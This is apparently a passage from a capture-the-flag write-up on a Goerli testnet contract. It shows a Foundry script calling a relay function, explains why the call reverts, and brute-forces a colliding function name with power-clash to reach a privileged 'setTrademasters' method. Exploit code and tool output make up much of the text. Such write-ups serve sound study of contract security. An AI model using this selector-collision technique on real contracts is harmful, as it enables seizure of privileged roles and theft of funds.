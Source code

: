 ```solidity

        TradingBoat boat = TradingBoat(TRADING_BOAT_GOERLI);
        bytes32[] memory params = new bytes32[](1);
        params[0] = 0x000000000000000000000000122C0492CEa0241cDfD7A11469e3434D24889Cc6;
        bytes memory signature = hex"265d347b6819c4aa0de6f96f9874b9e78a1b2ad38d16068196ed532eb4d9f96c063a6779057b5cef1ecfb3752a4789bfae1e53cf073adef07ba928cf01a38c401c";
        boat.relayShipment("setTrademasters", params, 43113, PUBLIC_KEY, TRADING_DATA_GOERLI, signature);

        vm.stopBroadcast();
    }
}
```


without a surprise the contract revert :


![](https://prod-files-secure.s3.us-west-2.amazonaws.com/00345c33-b7f7-443a-aca8-598247fb6d93/3f4739aa-a29a-46d3-b7e3-f6905d9db757/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20240215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20240215T193623Z&X-Amz-Expires=3600&X-Amz-Signature=8af8246b3792c858f49fad7cd4a532119c2776c1d3eed63d56783b9cc169498a&X-Amz-SignedHeaders=host&x-id=GetObject)


This is because the relay function add some params (bytes32[],uint64,address) that we don’t need and that change the function selector resulting in calling the wrong method on the target contract:


![](https://prod-files-secure.s3.us-west-2.amazonaws.com/00345c33-b7f7-443a-aca8-598247fb6d93/4f32ddf8-fe57-441b-ba74-95b1c9f1061e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20240215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20240215T193623Z&X-Amz-Expires=3600&X-Amz-Signature=211e1c2fbd2fa23c731bff99b5bfaa0e21f2c0e1bd38e6ac88260f38dbf0d0f0&X-Amz-SignedHeaders=host&x-id=GetObject)


We can see on the error message above that we call the selector `0x3b2e7145` whereas we were expecting to call `0xef51774d` :


![](https://prod-files-secure.s3.us-west-2.amazonaws.com/00345c33-b7f7-443a-aca8-598247fb6d93/b4a0a8cc-58ff-40aa-95cb-a077dcaab6a6/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20240215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20240215T193623Z&X-Amz-Expires=3600&X-Amz-Signature=e613653c1435bff38bead600df1176de2e0e01bf8f89d86671474e70b7d141b4&X-Amz-SignedHeaders=host&x-id=GetObject)


Now we know that it’s pretty much straight forward what we have to do: brutforce the _method params so that __`abi.ecodePacked(_`_`method, (bytes32[], uint64, address)` result in the `0xef51774d` selector.


In order to do that I installed the following program that seems to do the job:


[link_preview](https://github.com/botdad/power-clash)


```bash
> docker run --rm power-clash -a bytes32[],uint64,address -s ef51774d -p setTrademasters
> Attempting to find setTrademasters******(bytes32[],uint64,address) match for 0xef51774d in 19770609664 max permutations
> Calculating 6277782.5 permutations per second
> Found match in 902.78942008s
> setTrademastersLMuGgO(bytes32[],uint64,address) hashes to 0xef51774d
```


and Bingo! we have it : `setTrademastersLMuGgO(bytes32[],uint64,address) hashes to 0xef51774d`


Now we can do the say process as before but using the new function name.

